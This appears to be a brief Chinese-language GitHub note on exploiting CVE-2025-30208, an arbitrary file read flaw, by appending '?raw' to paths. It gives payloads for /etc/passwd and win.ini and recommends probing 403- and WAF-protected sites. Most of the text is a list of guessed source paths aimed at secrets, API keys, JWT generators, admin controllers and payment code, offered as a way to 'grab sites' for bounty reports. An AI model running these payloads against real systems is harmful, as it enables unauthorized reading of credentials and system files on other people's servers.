 # CVE-2025-30208
通过url去拼接下面路径来任意文件读取

```
/etc/passwd?raw"  # Linux系统文件

"/Windows/win.ini?raw" #windows文件
```
搜集完后去扫基本已经没剩几个了，很多都重复，不过有个其他的思路。讲一个小技巧，现在基本上常规的直接拼接路径已经刷烂了，不过我们可以把注意力放到一些403和有waf的网站
![a3bb815b6baee72ad140b6c829163a8](https://github.com/user-attachments/assets/bfd9424e-933d-43a1-bc16-c2f1038b47f2)

我们通过拼接这个路径去看有没有相关的内容，然后拼接一些vue开发最为熟悉的一些路径,下面为一些举例，具体还是需要看网站的线索来分析，这样我们就可以捡漏拿站交src了
以上思路仅供参考~

例如

/project/frontend/src/views/home.vue

/project/frontend/src/views/about.vue

/project/frontend/src/views/products.vue

/project/frontend/src/views/cart.vue

/project/frontend/src/views/checkout.vue

/project/frontend/src/views/orders.vue

/project/frontend/src/views/contact.vue

/project/frontend/src/views/faq.vue

/project/frontend/src/views/privacyPolicy.vue

/project/frontend/src/views/termsOfUse.vue

/project/frontend/src/views/profileEdit.vue

/project/frontend/src/views/changePassword.vue

/project/frontend/src/views/maintenance.vue

/project/frontend/src/constants/api-config.js

/project/frontend/src/constants/security-keys.js

服务类

/project/frontend/src/services/auth-handler.js

/project/frontend/src/services/cloud-service.js

/project/frontend/src/services/payment.js

页面组件
/project/frontend/src/views/admin/settings.vue

/project/frontend/src/views/admin/dashboard.vue

/project/frontend/src/views/admin/users.vue

/project/frontend/src/views/admin/orders.vue

/project/frontend/src/views/payment/confirm.vue

/project/frontend/src/views/user/security.vue

/project/frontend/src/views/user/profile.vue

/project/frontend/src/views/user/orders.vue

# 路由与状态

/project/frontend/src/router/private-routes.js

/project/frontend/src/router/admin-routes.js

/project/frontend/src/store/modules/secure-store.js

/project/frontend/src/store/modules/admin-store.js

# 后端路径
## 配置类

/project/backend/src/config/private-settings.js

/project/backend/src/config/third-party-keys.js

/project/backend/src/config/secret-manager.js

## 工具类

/project/backend/src/utils/crypto-helpers.js

/project/backend/src/utils/secure-logger.js

/project/backend/src/utils/jwt-generator.js

## 服务类
/project/backend/src/services/secure-auth.js

/project/backend/src/services/cloud-storage.js

/project/backend/src/services/payment-gateway.js
## 控制器
/project/backend/src/controllers/admin/security.js
/project/backend/src/controllers/admin/dashboard.js
/project/backend/src/controllers/admin/users.js
/project/backend/src/controllers/admin/orders.js
/project/backend/src/controllers/payment/process.js
/project/backend/src/controllers/user/credentials.js
/project/backend/src/controllers/user/profile.js
/project/backend/src/controllers/user/orders.js
